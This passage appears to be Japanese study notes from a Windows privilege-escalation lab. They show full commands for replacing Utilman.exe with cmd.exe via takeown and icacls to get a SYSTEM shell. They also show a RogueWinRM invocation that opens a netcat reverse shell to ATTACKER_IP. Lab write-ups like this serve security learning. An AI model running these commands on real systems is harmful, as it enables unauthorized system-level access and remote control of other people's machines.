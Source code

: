 ### SeTakeOwnershipの権限を利用

SeTakeOwnership権限により、ユーザーはファイルやレジストリキーなど、システム上の任意のオブジェクトの所有権を取得できる。  
以下の例ではutilmanを悪用して権限を昇格させる。utilmanはWindows設定の簡単操作を開くコマンド。

```cmd
# 管理者としてコマンドプロンプトを開く
# SeTakeOwnershipの権限があるか確認する
whoami /priv

# takeownコマンドでutilmanの所有権を取得する
takeown /f C:\Windows\System32\Utilman.exe

# icaclsでユーザーにフルコントロールのアクセス権を付与する
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

# utilman.exe を cmd.exeに置き換える
cd C:\Windows\System32
copy cmd.exe utilman.exe

# Utilmanをトリガーするために、スタートボタンから画面をロックする
# ロック画面から、「簡単操作」のメニューを選択すると、置き換えられた cmd.exeがSYSTEM権限で起動する
```

### SeImpersonate / SeAssignPrimaryTokenの権限を利用

この権限により、プロセスは他のユーザーに成りすましてその代わりに行動することができる。
以下の例では、RogueWinRMのエクスプロイトを悪用して権限を昇格させる。

- 攻撃側マシンで実行

```shell
# ncでポートを待受けておく（以下の例では　4442ポート）
nc -lvnp 4442

# ブラウザを起動し、ターゲットマシンのIPへアクセス
# 接続画面のテキストボックスに以下のコマンドを入力し「Run」ボタンをクリック
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

### タスク6の質問と解答

1. タスク6の説明内に記載した3つの権限昇格方法のどれでも確認できる。  
   ※AtackBoxからターゲットマシンにRDP接続する場合は以下のコマンドを利用。

```shell
remmina -c rdp:<user_name>@target_ipaddress
```

## Task7 Abusing vulnerable software

脆弱なソフトウェアの悪用。

### パッチが適用されていないソフトウェア
